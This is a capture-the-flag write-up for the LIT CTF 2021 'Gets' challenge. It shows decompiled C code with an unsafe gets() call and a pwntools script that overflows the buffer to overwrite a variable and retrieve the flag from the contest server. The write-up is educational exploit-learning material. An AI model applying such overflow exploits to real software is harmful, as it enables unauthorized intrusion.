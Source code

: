 # Lexington Informatics Tournament CTF 2021

## pwn/Gets

> Rythm 
> 
> My favorite libc function is gets. I am very confident in its security.
> 
> `nc gets.litctf.live 1337`
>
> [gets_pwn.zip](gets_pwn.zip)


Tags: _pwn_ _x86-64_ _variable-ovewrite_ _bof_


## Summary

Basic BoF/variable overwrite to get the flag.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

With PIE enabled and no leak, getting a shell may not be possible, however it's not necessary for this simple challenge.


### Decompile with Ghidra (never trust the source they give you, source can lie)

```c
undefined8 main(void)
{
  int iVar1;
  char local_38 [32];
  FILE *local_18;
  long local_10;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  // many puts calls removed for brevity 
  local_10 = 0;
  gets(local_38);
  iVar1 = strcmp(local_38,"Yes");
  if (iVar1 == 0) {
    puts("I\'m glad you understand.");
    if (local_10 == 0xdeadbeef) {
      local_18 = fopen("flag.txt","r");
      if (local_18 == (FILE *)0x0) {
        puts("Something is wrong. Please contact Rythm.");
        exit(1);
      }
      fgets(local_38,0x20,local_18);
      puts("Debug info:");
      puts(local_38);
    }
  }
  else {
    puts("Think Mark, think! Gets is secure!");
  }
  return 0;
}
```

`gets` is the vulnerability.

To get the flag, `local_38` must equal `Yes\0` (the null is required to terminate the string), and `local_10` must equal `0xdeadbeef`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

p = remote('gets.lit-ctf-2021-3-codelab.kctf.cloud', 1337)

payload  = b''
payload += b'Yes\0'
payload += (0x38 - 0x10 - len(payload)) * b'A'
payload += p32(0xdeadbeef)

p.sendlineafter('?\n',payload)
p.stream()
```

Ghidra makes the maths easy for you.  `local_38` is `0x38` bytes from the return address and `local_10` is `0x10` bytes from the return address, so to write to `local_10`, if overflowing `local_38`, write out `0x38 - 0x10` bytes.


Output:

```bash
# ./exploit.py
[+] Opening connection to gets.lit-ctf-2021-3-codelab.kctf.cloud on port 1337: Done
I'm glad you understand.
Debug info:
flag{d0_y0u_g3ts_1t}
```
